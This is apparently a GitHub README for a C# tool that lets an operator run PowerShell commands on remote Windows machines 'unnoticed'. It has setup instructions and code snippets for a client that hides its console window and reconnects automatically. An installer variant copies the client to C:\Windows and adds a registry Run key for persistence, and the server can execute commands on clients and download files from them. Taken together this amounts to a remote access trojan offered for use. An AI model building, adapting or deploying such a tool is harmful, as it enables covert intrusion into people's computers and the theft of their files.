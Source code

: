 # remote-powershell

It is a terminal-based application that allows you to execute commands on a remote computer in PowerShell unnoticed.

The application is divided into two main sections: client and server. And there are also special versions of sections that have additional functionality. Each of the sections and versions is briefly described below, as well as a short guide on how to set them up.

## server 

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/server)

The server folder contains all the files related to the part of the program that should be executed on the device from which the commands will be sent.

Just change the IP and Port to the one you need and run the program while waiting for connections.

```csharp
// Change IPAddress.Any (IP) and 8802 (Port) to the one you need
TcpListener tcpListener = new TcpListener(IPAddress.Any, 8802);
```

| Command           | Description                                                                  | Syntax                        | Aliases    |
| ----------------- | ---------------------------------------------------------------------------- | ----------------------------- | ---------- |
| execute           | Sends and executes the command you specified on the remote client's computer | execute [client-id] [command] | exec, !    |
| download          | Downloads the file you specified from a remote client's computer             | download [client-id] [path]   | dload, +   |
| connection-list   | Gives a list of all active remote connections                                | connection-list               | con-list   |
| connection-remove | Forcibly disconnects the specified remote client from the server             | connection-remove [client-id] | con-remove |
| clear             | Clears the terminal                                                          | clear                         | clr        |
| quit              | Closes the application                                                       | quit                          | exit       |

Despite the fact that the disconnect command forcibly disconnects the remote client from the server, the automatic reconnection function in the client can still restore connections after a while.

## client

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/client)

The client folder contains all the files related to the part of the program that should be executed on the device to which the commands will be sent and executed.

Just change the IP and Port to the ones you installed on the server and run the program on another device.

```csharp
string host = "127.0.0.1"; // Change 127.0.0.1 (IP) to the one you need
int port = 8802;           // Change 8802 (Port) to the one you need
```

If you don't want the application to be automatically hidden after launch, delete the code shown below.

```csharp
[DllImport("user32.dll")]
static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

[DllImport("kernel32.dll")]
static extern IntPtr GetConsoleWindow();

const int SW_HIDE = 0;
const int SW_SHOW = 5;

var handle = GetConsoleWindow();
ShowWindow(handle, SW_HIDE);
```

You can also delete only the last line shown, this will also make the app visible after launch.

Please note that if you use services that will help you expand your local network, such as ngrok, then you may have problems reconnecting the client to the server after it is turned off, since the connection for the client will remain active.

## client-and-installer

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/client-and-installer)

Client-and-installer is a version of the application that, when launched, automatically installs the client on a remote computer and adds it to Windows Startup.

```csharp
// Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
if (Environment.ProcessPath != @"C:\Windows\client.exe")
{
    // Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
    string path = @"C:\Windows\client.exe";
    ...
}
```

Сlient-and-installer automatically adds the application to Windows startup, if you want to remove it, then go to the Program.cs file in the client-and-installer folder and remove all lines from 15th to 17th.

```csharp
// Autorun code
RegistryKey registry;
registry = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\", true);
registry.SetValue("client", @"C:\Windows\client.exe");
```